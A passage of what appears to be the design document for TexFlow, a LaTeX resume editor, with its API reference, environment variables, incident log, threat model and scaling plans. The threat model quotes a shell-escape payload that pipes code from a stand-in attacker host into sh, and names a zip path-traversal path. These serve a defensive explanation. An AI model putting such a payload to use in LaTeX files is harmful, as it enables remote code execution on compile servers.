5. **Graceful Shutdown**:
   - Catches syscall signals `SIGINT`/`SIGTERM`.
   - Halts port listening, allowing active HTTP connections 15 seconds to exit before database resources are released.

#### 3. Compiler Worker Startup Flow
1. **Load Configuration**: Boots and checks paths of latexmk binaries and system dependencies (`LATEXMK_PATH`, `PDFINFO_PATH`).
2. **Database & Queue Connections**: Prepares persistent pooled sockets for Postgres and Redis.
3. **Initialize Worker Pool**: Spawns `worker.NewPool(WorkerCount)` creating buffered semaphore channels of size `N`.
4. **Queue Polling Loop (`pollLoop`)**:
   - Endlessly loops, invoking `q.Dequeue(ctx)` via Lua script to achieve locking safety.
   - If a compile payload is popped, writes a slot token to the semaphore channel to restrict execution concurrency.
   - Dispatches `executeJob(ctx, job)` in a separate goroutine.
   - Catches shutdown cancels, waiting for in-flight compilers to return before exiting.

---

# 22. Complete API Reference

Below is the definitive catalog of every HTTP route exposed by the API Gateway. All protected endpoints expect a valid JWT contained in a secure HTTP-Only cookie named `auth_token`.

### 1. Health & Operations Endpoints
#### `GET /health`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: None
- **Response (200 OK)**:
  ```json
  {"status":"ok","service":"api-gateway"}
  ```
- **Description**: Lightweight route to verify backend service routing health.

#### `GET /metrics`
- **Auth**: Public (Typically restricted via internal firewalls/VPCs in production)
- **Request Headers**: None
- **Query Params**: None
- **Response (200 OK)**: Text format output conforming to Prometheus exposition rules.
- **Description**: Exposes custom metrics such as queue depth and active processing states.

---

### 2. Authentication & Session Endpoints
#### `GET /api/auth/google/login`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: None
- **Response (307 Temporary Redirect)**: Redirects browser user to Google Identity Consent portal.
- **Description**: Begins Google OAuth flow.

#### `GET /api/auth/google/callback`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: `code` (string), `state` (string)
- **Response (302 Found)**: Redirects client to `/auth/callback?code={exchange_code}`.
- **Description**: Recipient callback for Google OAuth. Validates user info, creates user profile, generates JWT session, saves to Redis, and bounces back to the frontend proxy redirect portal.

#### `POST /api/auth/exchange`
- **Auth**: Public (Proxy Verification Flow)
- **Request Headers**: None
- **Query Params**: None
- **Request Body**:
  ```json
  {"code": "uuid-temp-exchange-code"}
  ```
- **Response (200 OK)**:
  ```json
  {"status": "success"}
  ```
  - **Set-Cookie Header**: `auth_token=jwt_value; HttpOnly; Secure; SameSite=Lax; Path=/`
- **Description**: Exchanges short-lived Redis key for a secure HTTP-Only first-party JWT session token.

#### `GET /api/auth/mock-login`
- **Auth**: Public (Dev-only / Non-production)
- **Request Headers**: None
- **Query Params**: None
- **Response (200 OK)**:
  ```json
  {"status":"success","user_id":"uuid"}
  ```
  - **Set-Cookie Header**: `auth_token=jwt_value; HttpOnly; Secure; SameSite=Lax; Path=/`
- **Description**: Simulates Google OAuth bypass for manual or Playwright automated testing, establishing test-user database entries.

#### `GET /api/auth/me`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**:
  ```json
  {
    "id": "user-uuid",
    "email": "user@example.com",
    "name": "Jane Doe",
    "avatar_url": "https://lh3.googleusercontent.com/..."
  }
  ```
- **Response (401 Unauthorized)**: Redirects or triggers logout.
- **Description**: Gets profile metadata of authenticated caller.

#### `POST /api/auth/logout`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**:
  ```json
  {"status": "success"}
  ```
  - **Set-Cookie Header**: `auth_token=; Max-Age=0; Path=/`
- **Description**: Invalidation route clearing cookie session token.

---

### 3. Project Management Endpoints
#### `GET /api/projects`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**: Array of project schemas.
  ```json
  [
    {
      "id": "proj-uuid",
      "name": "Google SWE Resume",
      "description": "Tailored resume variant",
      "user_id": "user-uuid",
      "created_at": "timestamp",
      "updated_at": "timestamp"
    }
  ]
  ```
- **Description**: Lists all resume projects owned by the authenticated tenant.

#### `POST /api/projects`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Request Body**:
  ```json
  {
    "name": "Stripe Staff Resume",
    "description": "Tailored resume for Stripe roles"
  }
  ```
- **Response (201 Created)**: Created project JSON payload.
- **Description**: Instantiates a new project node.

#### `GET /api/projects/summary`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**:
  ```json
  [
    {
      "id": "proj-uuid",
      "name": "Google SWE Resume",
      "description": "Tailored resume variant",
      "version_count": 4,
      "last_compile_status": "success",
      "last_compiled_at": "timestamp"
    }
  ]
  ```
- **Description**: Summarized project list aggregating counts, latest compilation, and execution timestamp metrics.

#### `GET /api/projects/{id}`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**: Target project details.
- **Description**: Returns metadata for a project.

---

### 4. Workspace & Compilation Endpoints
#### `POST /api/projects/{id}/upload`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Multipart Content-Type
- **Request Body**: Form Data with `file` key containing zip archive of LaTeX files.
- **Response (200 OK)**:
  ```json
  {
    "status": "success",
    "version_id": "version-uuid",
    "job_id": "job-uuid"
  }
  ```
- **Description**: Receives source zip, unpacks and verifies contents, streams blobs to workspace directory prefix on S3, inserts Version entry, and schedules compilation.

#### `GET /api/projects/{id}/files`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Cookie session token
- **Query Params**: `version_id` (optional string)
- **Response (200 OK)**:
  ```json
  {
    "storage_path": "resumes/proj-uuid/vers-uuid/",
    "files": ["main.tex", "style.cls", "avatar.jpg"]
  }
  ```
- **Description**: Returns list of filenames present in the latest or target snapshot workspace.

#### `GET /api/projects/{id}/files/{filename}`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Cookie session token
- **Query Params**: `version_id` (optional string)
- **Response (200 OK)**: Raw file contents as text/plain.
- **Description**: Downloads and serves the content of a single file in the workspace directory.

#### `PUT /api/projects/{id}/files/{filename}`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Text-Content/Plain
- **Request Body**: Raw editor file content bytes.
- **Response (200 OK)**:
  ```json
  {"status":"success"}
  ```
- **Description**: Overwrites or creates the target workspace file on S3.

#### `POST /api/projects/{id}/compile`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: `X-Manual-Trigger` (optional string)
- **Request Body**:
  ```json
  {
    "engine": "pdflatex",
    "main_file": "main.tex"
  }
  ```
- **Response (202 Accepted)**:
  ```json
  {
    "job_id": "job-uuid",
    "status": "queued"
  }
  ```
- **Description**: Schedules compilation for the workspace files. Bypasses limits and triggers high priority queue placement (priority=10).

---

### 5. Version Control & Drive Endpoints
#### `GET /api/versions`
- **Auth**: Protected
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**: Global history of versions across all user projects.
- **Description**: Populates user's global resume applications timeline tracker dashboard.

#### `GET /api/projects/{id}/versions`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK)**: List of snapshot versions belonging to this project.
- **Description**: Populates project-level sidebar snapshot timelines.

#### `POST /api/projects/{id}/versions/snapshot`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Cookie session token
- **Request Body**:
  ```json
  {
    "version_name": "Google Submission V2",
    "commit_message": "Add Kubernetes skills details",
    "applied_company": "Google",
    "role": "SWE II",
    "notes": "ATS auto-push snapshot",
    "upload_to_drive": true,
    "drive_file_name": "Jane_Doe_Google_SWE.pdf"
  }
  ```
- **Response (201 Created)**: Created Version JSON payload.
- **Description**: Freezes current workspace. Copies objects inside current S3 bucket location to a snapshot folder path, inserts DB version node, pushes source files to GitHub, and queues a background compile job.

#### `GET /api/projects/{id}/versions/{vid}/pdf`
- **Auth**: Protected (Project Owner Tenancy Check)
- **Request Headers**: Cookie session token
- **Query Params**: None
- **Response (200 OK / 307 Redirect)**: Binary application/pdf stream.
- **Description**: Streams the successfully compiled version PDF directly from S3.

#### `GET /api/drive/auth`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: None
- **Response (307 Temporary Redirect)**: Bounces user to Google Drive Scope permissions grant screen.
- **Description**: Begins Google Drive integration OAuth access requests.

#### `GET /api/drive/callback`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: `code` (string)
- **Response (200 OK)**: Informs user that sync setup succeeded.
- **Description**: Receives OAuth callback and updates system runtime environment credentials token.

---

### 6. Job Execution & Webhook Endpoints
#### `GET /api/jobs/{jid}`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: None
- **Response (200 OK)**:
  ```json
  {
    "id": "job-uuid",
    "project_id": "proj-uuid",
    "version_id": "version-uuid",
    "status": "success",
    "page_count": 1,
    "output_path": "outputs/job-uuid/main.pdf",
    "error_msg": "",
    "enqueued_at": "timestamp",
    "completed_at": "timestamp"
  }
  ```
- **Description**: Returns compilation metadata.

#### `GET /api/jobs/{jid}/log`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: None
- **Response (200 OK)**: Raw LaTeX compilation terminal stdout text output stream.
- **Description**: Serves log dump files from S3.

#### `GET /api/jobs/{jid}/stream`
- **Auth**: Public
- **Request Headers**: None
- **Query Params**: None
- **Response (200 OK SSE Stream)**: Server-Sent Events stream: `text/event-stream`.
- **Description**: Subscribes directly to Redis Pub/Sub events matching channel `job:{jid}:log`.

#### `POST /webhooks/github`
- **Auth**: Public (Webhook Verification Checks GITHUB_WEBHOOK_SECRET)
- **Request Headers**: `X-Hub-Signature-256`
- **Request Body**: GitHub Push Webhook JSON payload.
- **Response (200 OK)**:
  ```json
  {"status":"processed"}
  ```
- **Description**: Triggers automatic import updates when users push edits directly to monitored Git branches.

---

# 23. Frontend State Management

TexFlow implements React's component state modeling supplemented by React's Context Provider for session sharing, keeping compilation flows lightweight.

```text
       [ AuthProvider ] ──(Exposes: user, loading, logout)──► Global Application Scope
               │
      ┌────────┴────────┐
      ▼                 ▼
[DashboardPage]  [ProjectDetailPage] ──(Exposes Monaco Workspace IDE Context)
                        │
                        ├─► activeFile: "main.tex"
                        ├─► fileContents: Map<filename, content> (cache dirty edits)
                        ├─► compileLogs: string[] (appends logs received from SSE stream)
                        └─► jobStatus: 'queued' | 'running' | 'success' | 'failed'
```

### 1. User Authentication: `AuthContext`
- The `AuthProvider` handles user identity. When initialized, it fires a query to `/api/auth/me`.
- While fetching, `loading` is set to `true`, rendering a centralized loading spinner.
- If `/api/auth/me` returns HTTP 200, the JSON profile payload initializes the `user` state. Otherwise, `user` is set to `null`.
- The `logout` method clears this state and issues an invalidate request to `/api/auth/logout`.

### 2. Editor Workspace: `ProjectDetailPage`
- Tracks the active filename selection via `activeFile` state.
- Stores code edits in `fileContents` cache (`Record<string, string>`). When a user types in Monaco Editor, changes update `fileContents[filename]`.
- Tracks unsaved edits with a `dirtyFiles` state set (`Set<string>`). If a file is in `dirtyFiles`, the UI displays a dot.
- Triggering `Ctrl+S` iterates over `dirtyFiles`, executing `PUT /api/projects/{id}/files/{filename}` calls. Upon success, the set is cleared.

### 3. Log Streaming & SSE Broker Subscription
When a user initiates compilation, the application handles the asynchronous flow through the following states:

1. **State Transition**: Sets `jobStatus` to `"queued"`, disables compilation buttons, and clears the `compileLogs` array.
2. **Dispatch Event**: Sends a request to `POST /api/projects/{id}/compile`.
3. **Receive Job ID**: Retrieves `{ job_id }` from the response.
4. **Initiate SSE Connection**: Calls `streamJobLogs(jobId, onEvent, onClose)`. This instantiates an `EventSource` listening at `/api/jobs/{jobId}/stream`.
5. **Listen for Events**:
   - `type == "status"`: Updates `jobStatus` (e.g., to `"running"`).
   - `type == "log"`: Appends the received line to `compileLogs`.
   - `type == "error"`: Appends the error trace, sets `jobStatus` to `"failed"`, and closes the connection.
   - `type == "done"`: Fetches updated project version lists, updates PDF preview URL with the new S3 path, sets `jobStatus` to `"success"`, and closes the connection.

---

# 24. E2E User Flows

Here are the E2E sequence flows of TexFlow's main operations:

### Flow 1: Google OAuth2 Login & Cookie Exchange


### Flow 2: Project Creation


### Flow 3: Zip Template Upload & Auto-Compile


### Flow 4: Interactive Code Editing & Hot Save


### Flow 5: Triggering Hot Compilation (Manual compile)


### Flow 6: Real-time Log Streaming via SSE


### Flow 7: Version Snapshotting with Git Auto-Push


### Flow 8: Google Drive PDF Syncing


### Flow 9: GitHub Webhook Auto-Import/Update


---

# 25. Environment Variables

The table below outlines all environment variables required to run TexFlow.

| Variable Name | Default Value (Dev) | Target Service | Risk of Omission | Failure Behavior / Error Mode |
| :--- | :--- | :--- | :--- | :--- |
| `DB_DSN` | `postgres://...` | API, Compiler | **CRITICAL** | Services crash on start with `"PostgreSQL connection failed"` errors. |
| `REDIS_URL` | `redis://localhost:6379` | API, Compiler | **CRITICAL** | Services crash on start with `"Redis client init failed"` errors. |
| `REDIS_QUEUE_KEY` | `texflow:jobs` | API, Compiler | Low | Defaults to generic key; namespaces get messy. |
| `MINIO_ENDPOINT` | `localhost:9000` | API, Compiler | **CRITICAL** | Uploads fail; clients receive 500 errors during operations. |
| `MINIO_ACCESS_KEY` | `minioadmin` | API, Compiler | **CRITICAL** | S3 operations return `"Access Denied"` signature mismatch failures. |
| `MINIO_SECRET_KEY` | `minioadmin` | API, Compiler | **CRITICAL** | S3 operations return `"Access Denied"` signature mismatch failures. |
| `MINIO_BUCKET` | `texflow` | API, Compiler | Medium | Program automatically creates bucket if missing; fails if bucket name is invalid. |
| `MINIO_USE_SSL` | `false` | API, Compiler | Low | Defaults to false; in production, leaving this false blocks secure connections to R2/AWS. |
| `API_PORT` | `8080` | API Gateway | Low | API listens on default port. |
| `API_HOST` | `0.0.0.0` | API Gateway | Low | Defaults to localhost loopback. |
| `JWT_SECRET` | `super-secret-key` | API Gateway | **CRITICAL** | Token verification fails; users are logged out immediately. |
| `APP_ENV` | `development` | API Gateway | Medium | Defaults to development. Disables E2E mock endpoints if set to `production`. |
| `WORKER_COUNT` | `2` | Compiler | Low | Defaults to 2 concurrent compiler threads. |
| `JOB_TIMEOUT_SECONDS` | `60` | Compiler | Low | Compilations terminate if they exceed the 60s timeout limit. |
| `LATEXMK_PATH` | `latexmk` | Compiler | **CRITICAL** | Worker fails to start LaTeX compilation; builds return 500 errors. |
| `PDFINFO_PATH` | `pdfinfo` | Compiler | **CRITICAL** | Page count verification crashes; PDF output rejection occurs. |
| `GOOGLE_CLIENT_ID` | None | API Gateway | High | Google login flow displays validation errors on Google's portal. |
| `GOOGLE_CLIENT_SECRET` | None | API Gateway | High | Google callbacks return HTTP 500 errors during token exchange. |
| `GOOGLE_REDIRECT_URL` | None | API Gateway | High | Redirect URL mismatch displays validation errors. |
| `GITHUB_TOKEN` | None | API Gateway | Medium | Snapshots fail to push back to GitHub repository. |
| `GITHUB_REPO` | None | API Gateway | Medium | Pushes fail to locate target GitHub repository. |
| `GITHUB_BRANCH` | `main` | API Gateway | Low | Defaults to `main`. |
| `GITHUB_WEBHOOK_SECRET`| None | API Gateway | Low | Webhook signature verification fails; automatic imports are blocked. |
| `GOOGLE_DRIVE_CLIENT_ID`| None | API, Compiler | Medium | Google Drive export features return configuration check errors. |
| `GOOGLE_DRIVE_CLIENT_SECRET`| None | API, Compiler | Medium | Google Drive export features return configuration check errors. |
| `GOOGLE_DRIVE_REFRESH_TOKEN`| None | API, Compiler | Medium | Google Drive export features return authentication check errors. |
| `GOOGLE_DRIVE_FOLDER_ID`| None | API, Compiler | Low | Drive files are placed in root workspace rather than a target folder. |

---

# 26. Production Incident Log

### Incident 1: Cross-Origin Session Cookie Drop
- **Commit Reference**: `c311c75`, `5e4d470`, `61b461a`
- **Symptom**: Users logged in through Google OAuth but were immediately redirected to the unauthenticated login screen.
- **Root Cause**: The API Gateway on Render set an HTTP-Only cookie targeting `.onrender.com`. The Vercel frontend domain was `texxflow.vercel.app`. Modern browsers blocked the cookie because it was a third-party cookie.
- **Resolution**:
  - Configured `vercel.json` to proxy `/api/*` to Render, making it look like a first-party endpoint.
  - Implemented a one-time code exchange flow: the callback returns a UUID, and the frontend POSTs to `/api/auth/exchange` to set the cookie.
  - Ensured credentials (`include`) were set on all API fetch requests.

### Incident 2: Chi Router Endpoint Shadowing (404 Error)
- **Commit Reference**: `5f64a02`
- **Symptom**: Fetching `/api/projects/summary` returned a `404 Not Found` error.
- **Root Cause**: The route path pattern `r.Get("/projects/{id}")` shadowed `/projects/summary`. Chi matched `summary` as the `{id}` placeholder, failing UUID validation and returning a 404 error.
- **Resolution**: Reordered route definitions. Placed `/api/projects/summary` before resource route groupings like `/projects/{id}`.

### Incident 3: Tectonic Fails on XeTeX Primitives
- **Commit Reference**: `a0b7ae3`
- **Symptom**: Standard resume templates using packages like `microtype` or `hyperref` crashed compilation with `"Undefined control sequence"` errors.
- **Root Cause**: Tectonic compiles LaTeX documents via XeTeX. Legacy templates contained pdfTeX-specific commands (such as `\pdfgentounicode`), which XeTeX does not support.
- **Resolution**: Added a pre-compilation regex sanitization layer in `executor.go`. It replaces occurrences of `\pdfgentounicode` with `% \pdfgentounicode` comments before passing files to Tectonic.

### Incident 4: E2E Playwright Tests Failing due to 404 PDF Downloads
- **Commit Reference**: `2a371de`
- **Symptom**: Playwright E2E tests randomly failed. Checking logs revealed the PDF download endpoint returned a 404 error.
- **Root Cause**: The default Playwright test timeout was 30 seconds. Heavy LaTeX compilations took 35 seconds, causing Playwright to abort the request. This context cancellation bubbled up to the Go middleware, which returned a 404 error instead of handling the client disconnection gracefully.
- **Resolution**:
  - Increased Playwright test timeout to 180 seconds.
  - Improved middleware log tracking to handle `context.Canceled` exceptions.

### Incident 5: Compiler Worker Container Missing `pdfinfo`
- **Commit Reference**: `9a1f252`
- **Symptom**: Compilations failed, and logs showed errors like `"exec: pdfinfo not found"`.
- **Root Cause**: The compiler worker container was based on `debian:slim` and did not have `pdfinfo` installed.
- **Resolution**: Installed `poppler-utils` in the runtime stage of the Dockerfile.

### Incident 6: Redis Silent Enqueue Failure
- **Commit Reference**: `2a371de`
- **Symptom**: Projects created version snapshot records, but compilation jobs remained stuck as `"queued"`.
- **Root Cause**: Redis connection errors or marshalling failures occurred silently during queue execution. The DB record was written, but the job never reached the queue.
- **Resolution**: Wrapped `queue.Enqueue` calls in robust error checks. If enqueuing fails, the database job status is updated to `"failed"` with the error message.

### Incident 7: CORS Multi-Origin Blocking
- **Commit Reference**: `7f11225`, `938a8b2`
- **Symptom**: Frontend developers running localhost tests or Vercel preview deploys were blocked by CORS policy restrictions.
- **Root Cause**: The router only allowed one origin.
- **Resolution**: Implemented a dynamic CORS origin-matching utility in `main.go`. It normalizes incoming origins and allows requests from trailing slash variations.

### Incident 8: GLIBC Version Mismatch in Compiler Worker
- **Commit Reference**: `8e87f80`
- **Symptom**: The container crashed on start with `"libc.so.6: version GLIBC_2.32 not found"`.
- **Root Cause**: The Go binary was built dynamically on a host machine with a newer GLIBC version than the target Debian container.
- **Resolution**: Configured the build command in the Dockerfile to use `CGO_ENABLED=0 GOOS=linux` to build a static binary.

### Incident 9: Base Go Compiler Version Outdated
- **Commit Reference**: `7def5ae`
- **Symptom**: Docker builds failed with syntax errors when compiling Go modules.
- **Root Cause**: The Docker build stage used `golang:latest`, which pointed to an older version than Go 1.26.1 defined in `go.mod`.
- **Resolution**: Pinned the build stage base image to `golang:1.26-bookworm`.

### Incident 10: Multi-Tenant Workspace Leak
- **Commit Reference**: Fix implemented in current session
- **Symptom**: User A could see User B's versions in the global resume tracking dashboard.
- **Root Cause**: The `ListAllVersions` database query lacked a tenant check, listing all versions in the database.
- **Resolution**: Added a `WHERE p.user_id = $1` filter to the SQL query in `versions.go`.

### Incident 11: Auth Callback State Redirect Loop
- **Commit Reference**: Fix implemented in current session
- **Symptom**: After logging in, users remained stuck on an unauthenticated landing page until they manually reloaded the page.
- **Root Cause**: React's client-side router (`navigate('/')`) did not trigger a page reload. As a result, the `AuthProvider` did not read the new first-party cookie.
- **Resolution**: Changed the post-login redirect to use `window.location.href = '/'` to force a full page reload.

### Incident 12: Duplicate Docker Build Layers
- **Commit Reference**: `b0b2c6a`
- **Symptom**: Compiler worker deployments on Render took more than 15 minutes.
- **Root Cause**: The Dockerfile had redundant build layers, which invalidated caches and forced dependencies to download on every build.
- **Resolution**: Streamlined the Dockerfile into two stages (build and run) to optimize build caching.

---

# 27. Security Threat Model

The following threat matrix maps vulnerabilities and mitigations:

| Threat / Attack vector | Risk Rating | Vulnerability Exploit Details | Mitigation Implemented |
| :--- | :--- | :--- | :--- |
| **Remote Code Execution (RCE) via LaTeX** | **CRITICAL** | Malicious users upload `.tex` files containing command escape sequences (e.g. `\write18{curl attacker.com/malicious | sh}`). | Tectonic runs in a restricted sandbox mode by default, blocking shell escape features (`\write18` and input/output redirections). |
| **Path Traversal via ZIP uploads** | **HIGH** | Zip files with paths like `../../etc/passwd` could overwrite system files. | Added path sanitization checks to the extraction utility. Any path resolving outside the target directory is rejected. |
| **Data Leakage / Tenant Access Bypass** | **HIGH** | Users query `/api/projects/{id}/files` with a UUID belonging to another user. | The `ProjectAuthMiddleware` validates project ownership against the user ID in the JWT session. |
| **Cross-Site Scripting (XSS)** | **MEDIUM** | Attackers steal session tokens by executing malicious scripts in the browser. | JWT session tokens are stored in `HttpOnly` cookies, making them inaccessible to JavaScript. |
| **GitHub Token Leakage** | **HIGH** | Unauthorized access to the backend env exposes the master Git write token. | Pushes are isolated using the user's email as a folder namespace (`email/project_name`). We recommend moving to dynamic GitHub App installations to limit scope. |
| **Google Drive Refresh Token Expiry** | **MEDIUM** | Refresh tokens expire, blocking background exports. | Drive auth failures are captured and displayed as alerts in the dashboard. |

---

# 28. System Design Deep Dive

### 1. Engine: Tectonic vs TeX Live
- **TeX Live**: Standard images are larger than 4GB. They contain thousands of unused fonts and style packages, which slows down deployment and scaling.
- **Tectonic**: Uses a minimal 150MB base container. It lazily downloads missing LaTeX packages from CTAN on demand and caches them. This reduces image sizes and simplifies dependency management.

### 2. Queue: Redis Sorted Sets (ZSets) vs RabbitMQ
- **RabbitMQ**: Requires complex message broker setups, exchanges, and queues.
- **Redis ZSets**: We implement priority queueing using a Sorted Set. The score is calculated as `(-priority * 1e12) + unixNano`. This ensures manual compilations (priority 10) are processed before background tasks (priority 1) in a FIFO order. It also supports real-time log streaming using Pub/Sub.

### 3. API Router: Go Chi vs Gin
- **Gin**: Features a heavy context object and uses reflection for binding, which increases memory overhead.
- **Chi**: A lightweight, fast Go router. It is fully compatible with standard library `net/http` handlers and uses zero allocation.

### 4. Storage: S3 Prefixes vs Bare Git Repositories
- **Bare Git Repositories**: Storing repositories on disk makes backend instances stateful. This limits hosting options to expensive VPS setups and creates scaling challenges.
- **S3 Prefixes**: We store workspaces in S3 under prefixes like `resumes/{project_id}/{version_id}/`. To create a snapshot, we simply copy files to a new prefix path. This approach is stateless, scalable, and cost-effective.

---

# 29. Performance & Scaling

To scale TexFlow to 100k users, we recommend the following optimizations:

```text
[Vercel CDN Edge] ────► [Go API Load Balancer Group] ────► [Supabase PgBouncer Pool]
                                │                                    │
                                ▼                                    ▼
                     [Upstash Redis Replica]               [S3 CDN / Cache Layer]
                                │
                                ▼
                   [K8s Worker Autoscale Pods]
```

### 1. Database Scaling
- Use connection poolers like **PgBouncer** or Supabase Connection Poolers (Port 6543) to prevent connection saturation.
- Implement read-replicas. Route read queries (like dashboard lists) to replicas, and keep write queries (like snapshots) on the primary database.

### 2. Redis Optimization
- Transition from serverless Redis instances to a dedicated cluster hosted inside the same VPC as the backend services.
- Optimize the queue by pruning completed compile job statuses regularly.

### 3. Storage Optimization
- Put a CDN (like **Cloudflare CDN**) in front of S3 buckets.
- Cache compiled PDFs. This reduces S3 egress costs and speeds up resume loading times.

### 4. Worker Autoscaling
- Deploy the compiler service as an autoscaling group on **Kubernetes (K8s)** or **Knative**.
- Use the Redis queue depth (`ZCARD`) metric to scale worker instances dynamically.

---

# 30. Project Metrics

### Code Metrics
- **Go Backend Lines of Code**: ~1,500 lines.
- **React/TS Frontend Lines of Code**: ~2,000 lines.
- **Postgres Database Schemas**: 93 lines of SQL.

### System Metrics
- **Active Endpoints**: 27 (23 REST paths, 3 Auth flows, 1 Webhook path).
- **Core Database Tables**: 4 (`users`, `projects`, `versions`, `compile_jobs`).
- **Required Background Daemons**: 3 (API Gateway, Redis Broker, Compiler Worker).
- **Target Container Size**: ~180MB for the Debian-Tectonic runtime image.

---

# 31. Ownership & Interview Defense

Use the talking points below to present the project in interviews.

### 1. "What did you build versus what was generated?"
> "I designed the architecture, wrote the Go microservices, and implemented the Redis priority queue. I used AI as a pair programmer to generate boilerplate React components and speed up integration bindings. The core architecture—such as the Redis-backed cookie exchange flow and the LaTeX preprocessor—was custom designed to solve real issues I faced during development."

### 2. "Why did you build a custom compiler service instead of using a third-party LaTeX API?"
> "Using a third-party LaTeX API introduces security risks, egress fees, and API rate limits. Building a custom worker container with Tectonic allowed us to run compilation in a sandbox environment and scale worker instances independently from the API Gateway."

### 3. "What was the most challenging bug you resolved?"
> "Resolving the cross-origin authentication issue. Render's cookie domain restrictions blocked JWT session storage. I solved this by configuring Vercel as a reverse proxy for `/api/*` and implementing a temporary code exchange flow using Redis to set the HttpOnly cookie securely."

---

# 33. Known Limitations

- ** ctans / CTAN Network Failure**: If CTAN package servers go down, Tectonic cannot download new packages, which blocks compilations. Mitigate by pre-installing common packages (like `geometry` or `hyperref`) in the Docker image.
- **Single Redis Node SPoF**: The Redis queue is a Single Point of Failure. If Redis crashes, log streaming and task queueing stop. Mitigate by setting up multi-zone Redis clusters.
- **Google Drive Token Life**: Drive API credentials expire if the application is not actively used. Add token refresh flows to keep credentials valid.
- **No Offline Compilation**: Compilation requires an active network connection to reach S3 storage.

---

# 34. Future Roadmap

```text
  Week 1: WebSockets & LSP    Month 1: Auto-tailor AI    Q1: Multi-Tenant Team
 ┌────────────────────────┐  ┌────────────────────────┐  ┌────────────────────────┐
 │ - Add Monaco LSP       │  │ - Integrate LLM APIs   │  │ - Shared Workspaces    │
 │ - Bi-directional logs  │  │ - PDF Diff Highlighting│  │ - RBAC Permissions     │
 └────────────────────────┘  └────────────────────────┘  └────────────────────────┘
```

- **Immediate Term (Week 1)**: Transition log streaming from SSE to WebSockets to support a Language Server Protocol (LSP) for LaTeX autocomplete in the browser.
- **Short Term (Month 1)**: Integrate an AI agent that automatically suggests resume tweaks based on a provided job description.
- **Mid Term (Quarter 1)**: Build workspace sharing and role-based access control (RBAC) to allow multiple users to collaborate on resume templates.

